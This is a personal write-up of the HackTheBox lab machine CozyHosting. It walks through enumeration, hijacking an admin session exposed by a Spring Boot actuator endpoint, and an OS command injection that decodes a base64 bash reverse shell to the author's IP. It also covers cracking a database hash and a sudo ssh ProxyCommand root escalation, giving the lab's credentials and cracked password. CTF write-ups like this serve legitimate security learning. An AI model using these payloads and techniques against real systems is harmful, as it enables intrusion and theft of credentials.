 ```yaml
---
title: "CozyHosting HackTheBox machine walkthrough"
excerpt_separator: "<!--more-->"
date: 2023-09-04 23:58:00 +0000
categories:
  - HackTheBox Writeups
tags:
  - Hacking
  - Notes
  - writeup
  - ctf
---
```



### Cosyhosting — HackTheBox Walkthrough

- *My writeups are more of my own mind-map than an "official" walkthrough, it may not seem straightforward sometimes but that's just the beauty of my own thinking.*

---

### Target Surface:

    - Spring Boot web app, discovered via /error and framework paths
    - Admin session discovered in /actuator/sessions cookie data
    - OS command injection in SSH connectivity form parameter
    - PostgreSQL backend with credentials in [application.properties](http://application.properties)
    - SSH access with cracked bcrypt hash for user escalation

### Tooling:

    - /etc/hosts mapping and whatweb recognition
    - gobuster with common and spring-boot wordlists
    - nmap for services discorvery
    - Burp Suite and ffuf for auth and parameter fuzzing
    - netcat for reverse shell listener
    - psql for database access
    - john for crypt hash cracking
  
---

# Foothold :

In this section, i’ll explain which approach I've taken to start hacking the box:

- The first thing to do before loading the webpage is to add the ip address to /etc/hosts to map the DNS to the machine cozyhosting.htb.
- Next i went through all the options and buttons available to see if there’s anything interesting but it wasn’t a complicated webapp since everything takes you back to the main index page.
- Here i started the basic enumeration i know since i couldn’t find anything on the source page excluding the js files of course, to enumerate i worked with a tool called [Gobuster](https://github.com/OJ/gobuster) which is a tool to brute-force URIs (directories and files) in web sites (in my case) for that i used the common.txt wordlist from the infamous **SecLists**, as below:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://cozyhosting.htb/
```

- On the side i went to see if there’s any open ports using Nmap with the command:

```bash
nmap -sC -sV 10.10.11.230
```

- Interestingly enough, after the directory enumeration there was a page called /error and for the services, ssh was open so it was obvious that later on we would need to gain remote access.
- Back to the /error page, after checking there was an error which I was unfamiliar with called "the white label error" after searching for it I could see it’s a spring boot framework related, we’ll get back to this.
- Before searching further into that i tried to bruteforce the login page using **ffuf** and **burpsuite** but nothing worked, i was lost then i tried to look for a spring boot vulnerability and its exploit, there was an **RCE** but the thing is i didn’t know how and where to put it, i knew it needed a **POST** action but also a vulnerable parameter and there wasn’t any- yes you may ask why not on the login form but that also didn’t work.
- That was the first break wall i encountered, i had to search for clues. I found that the vulnerability was indeed in spring boot but not like i imagined it. It needed a simple enumeration with **Gobuster** using spring-boot worldlist  😐:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u https://cozyhosting.htb/
```

- there was bunch of pages but the interesting one was “http://cozyhosting.htb/actuator/sessions” which contained a bunch of cookies- yes cookies and one of them was the admin called kanderson TADA!!!
- After changing my cookie to his, I was in the admin panel.
- There wasn’t much to look at it was a simple webpage with hosts monitoring kinda thing and before the footer there was an ssh connection to a host using hostname and username.
- Now tbh i didn’t know what to do i mean i knew it was vulnerable with the error output it displayed and i knew it was an OS command injection but i didn’t know how to exploit it, after searching (again) i knew the username was exploitable so using this payload i was in, steps are below:
1. Encode the payload using **base64**:

```bash
/bin/bash -i >& /dev/tcp/<MY_IP>/<MY_PORT> 0>&1 => L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjY0LzEzMzcgMD4mMQ==
```

1. construct the payload cause the field doesn’t accept space:

```bash
;$(echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjY0LzEzMzcgMD4mMQ==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/bash${IFS})
```

1. start a listener on my attack machine using **netcat**:

```bash
nc -lvnp 1337
```

1. Paste the payload on the username field and boom we got access which leads us to the next section, User flag.

# User flag:

Ouf i was close to tripping there, anyway now that i’m in with a user called app i started looking around:

- Before looking any further I needed to stabilize the the shell and apparently it was crucial later on the steps, to do that the **pty** alone didn’t work so I had to do this:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL^Z
stty size;stty raw -echo;fg
reset
```

- Now that we have a stable shell, the first thing i did and everyone does is list the directory using **ls** then **ls -a** in which I found a file called cloudhosting-0.0.1.jar.
- After trying to unzip it, it didn’t work, so i had to start a server on the victim machine so i could download it remotely on my attack machine as below:

 

```bash
#On the victim machine and inside the file directory
python3 -m http.server 8081
#On the attack machine
https://<victim-ip>:8081/cloudhosting-0.0.1.jar
```

- It contained many files so I wasn't sure which way I should focus on so I needed another clue, i checked the running processes using **ps aux** and there It was, **PostgreSQL** process running so it must be it.
- also i randomly checked the /etc/passwd file (cause i could) there was a postgres user there so i kept thar in mind.
- Obviously after that i went to check the previous files that i downloaded for **postgresql** stuff, after thoroughly checking there was an interesting file called [application.properties](http://application.properties) in /BOOT-INF/classes, cat that and boom you got the postgresql username and password.
- To connect with that I used the command below:

```bash
psql -h localhost -d cozyhosting -U postgres
```

- Enter the password **Vg&nvzAQ7XxR** and we’re in the database.
- After listing tables with **/dt** i found the users and hosts tables so i listed the users using:

```sql
SELECT * FROM users;
```

- There were two users admin(josh) and kanderson and their hashed passwords.
- I took the josh one and cracked it with **john** tool using the worldlist rockyou.txt:

```bash
john hash-mode 3200 $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

- The password of josh is manchesterunited.
- So we know what to do after that:

```bash
ssh josh@victim-ip 
```

- Again, **ls** and boom user.txt which contains the flag.

# root flag:

This one was way faster and it was easy.

- My insticts went to /tmp file where i found the linpeas file i was like bingo!

<aside>
💡 linpeas is a script made for making privilege escalation easier by making the potentially vulnerable parameters stand out during a full scan

</aside>

- Honestly there was no need for that cause this was an easy machine, but it showed directories that were interesting enough to exploit:

```bash
/usr/bin/base64
/usr/bin/curl
/usr/bin/nc
/usr/bin/netcat
/usr/bin/perl
/usr/bin/ping
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget
```

- I went to **gtfobins** and looked for the base64 exploit first but it didn’t work.
- Then i went directly to **sudo** i mean come on it was obvious 😏 and boom i found the privesc exploit for that which is:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

- Aaaaaand we’re root! 🎉
- i did **cd ~** then **ls** where i found the root.txt file which also contains the flag.



That's it! Ps This box was the first machine I rooted on HackTheBox.